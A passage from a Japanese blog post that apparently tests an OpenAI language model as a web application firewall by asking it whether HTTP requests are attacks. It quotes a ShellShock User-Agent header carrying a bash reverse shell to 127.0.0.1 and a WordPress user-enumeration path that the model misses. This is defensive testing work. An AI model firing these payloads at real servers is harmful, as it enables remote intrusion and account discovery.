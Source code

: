 　やっと検出されました。

### WordPress のユーザ列挙

- パス：`/wp-json/wp/v2/users`
- 6.49 秒
- **検出なし**

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
[2023-02-21 13:03:48] local.INFO: Is the following HTTP request a cyber attack?
-----
GET <span style="color: #ff0000">/wp-json/wp/v2/users</span> HTTP/1.1
</pre>
</div>

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
<span style="color: #ff0000">No</span>, this is not a cyber attack. It is a legitimate HTTP request for a web page.
</pre>
</div>

　これは標準の機能として提供されているのが理由なのか、検出されそうにありませんでした。

### ShellShock

　最後に ShellShock。

- User-Agentヘッダ：`() { :;};/bin/bash -i >& /dev/tcp/127.0.0.1/3333 0>&1`
- 3.23 秒
- **<span style="color: #ff0000">検出あり</span>**

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>Is the following HTTP request a cyber attack?
-----
GET /cgi-bin/test.cgi HTTP/1.1
ACCEPT: */*
USER-AGENT: <span style="color: #ff0000">() { :;};/bin/bash -i >& /dev/tcp/127.0.0.1/3333 0>&1</span>
HOST: 127.0.0.1</pre>
</div>

<div class="md-code" style="width:100%;">
<pre class="code" data-lang="" data-unlink>Yes, this HTTP request is a cyber attack. <span style="color: #ff0000">It is an example of a Shellshock attack</span>, 
which is a type of attack that takes advantage of a vulnerability in the Bash shell.</pre>
</div>

　余裕の模様です。

## まとめ

- 攻撃シグネチャを検出させたい方向に持って行ったりしましたが、「WordPress のユーザ列挙」以外は検出できる結果。
  - 「XSSのCookieを盗もうとしている」や「OSコマンドインジェクションのアクセスログを削除しようとしている」といった影響まで返答する点は期待以上の挙動。
- レスポンスは約3 ~ 10秒（WAF無しで0.42秒）。
  - 検証前から分かっていたことではありますが、実運用でWAFとして使うのはムリそう。
  - OpenAI の負荷状況によってレスポンス時間が大きく変動する。場合によっては 504 Gateway Timeout になってた。
- リクエスト全体で攻撃リクエストの判定を行うと精度が大きく下がる。
  - 「リクエストライン」「ヘッダ」「メッセージボディ」で分けて検査すると精度が上がりそう。
- 1リクエスト約1円の課金は高い。
  - トライアルは$18までなのでご注意を。


[blog:g:12921228815726579926:banner]
